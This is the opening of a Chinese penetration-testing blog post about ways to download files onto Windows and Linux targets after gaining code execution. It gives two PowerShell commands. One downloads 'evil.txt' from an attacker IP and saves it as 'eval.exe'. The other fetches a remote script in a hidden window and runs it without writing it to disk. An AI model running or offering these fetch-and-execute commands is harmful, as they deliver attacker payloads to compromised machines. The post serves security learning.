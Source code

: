 ```yaml
---

title: Windows/Linux文件下载常用方法
top: true
cover: false
toc: true
mathjax: true
date: 2020-10-09 09:42:13
password:
summary:
tags: Web安全
categories: Web安全
---
```


---

###  一、前言

####  在渗透测试的环节中，我们有时会遇到一些需要上传文件的场景，比如在RCE的环节中，无法将文件进行写入；再比如说提权的时候，无法上传EXP文件；当然实际中的应用场景远不止此，这个时候我们就可以尝试利用Windows/Linux的一些命令、自带/第三方工具来进行下载的操作，注意目录一定要有写入权限才可以。



### 二、常见的文件下载方式

#### **(1) 自带命令/工具**

#### ***PowerShell（须大于 Server2003的Windows版本）：***

##### PowerShell是一种跨平台的任务自动化和配置管理框架，由命令行管理程序和脚本语言组成，与大多数接受并返回文本的 shell 不同，PowerShell构建在 .NET公共语言运行时 (CLR) 的基础之上，接受并返回.NET对象，这从根本上的改变引入了全新的自动化工具和方法。

##### 下载远程服务器文件到本地：

```
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.10.11/evil.txt','eval.exe')
```

![powershell](Windows&Linux常见文件下载方法/powershell.png)

##### 无文件落地执行：

```
powershell -nop -w hidden -c "IEX ((New-Object Net.Webclient).DownloadString('http://192.168.10.11/eval.txt'))"
```
